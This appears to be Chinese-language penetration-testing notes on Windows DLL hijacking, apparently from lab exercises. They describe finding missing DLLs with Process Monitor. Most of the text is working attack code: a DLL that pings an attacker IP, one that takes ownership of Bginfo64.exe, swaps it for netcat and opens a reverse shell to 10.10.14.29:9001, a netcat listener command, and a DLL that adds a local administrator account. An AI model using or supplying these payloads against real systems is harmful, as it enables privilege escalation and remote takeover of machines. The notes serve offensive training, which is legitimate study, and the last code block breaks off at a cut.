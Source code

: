 
### DLL 劫持相关（总结）
- 一般都和一个自动执行任务的程序在一起，比如说 .au3 (AutoIt 脚本文件, 自动化 Windows 图形用户界面 (GUI) 的脚本语言)
- 获得 rdp 后使用 process Monitor ，重启服务并监视，找到缺失的 dll 并滥用。
创建一个 dll 上传，来确定 dll 会不会/什么时候会被调用  ; 先创建一个我们自己定义的 c 语言
```c
└─$ cat test.c  
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason , LPVOID lpReserved)
{
    switch(dwReason)
    {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c ping 10.10.14.29");
            break;
    }
    return TRUE;
}
```

构建为 dll 文件替换
```bash
x86_64-w64-mingw32-gcc test.c -shared -o test.dll
```

继续构建 （例子，是修改自己的权限，然后覆盖文件为 nc，反弹 rev shell）
```c                                                                             
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason , LPVOID lpReserved)
{
    switch(dwReason)
    {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
            system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
            system("cmd.exe /c copy C:\\programdata\\nc64.exe C:\\share\\Bginfo64.exe");
            system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd 10.10.14.29 9001");
            break;
    }
    return TRUE;
}
```
`takeown`  /F 指定修改某个文件的所有权为自己
`cacls `  修改文件的标准访问控制列表，/E 表示修改不是替换， /G 表示修改特定的 ACL
- reverse shell
```bash
rlwrap -cAr nc -lvvnp 9001
```

**其他(微软)C++ 示例代码**
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
```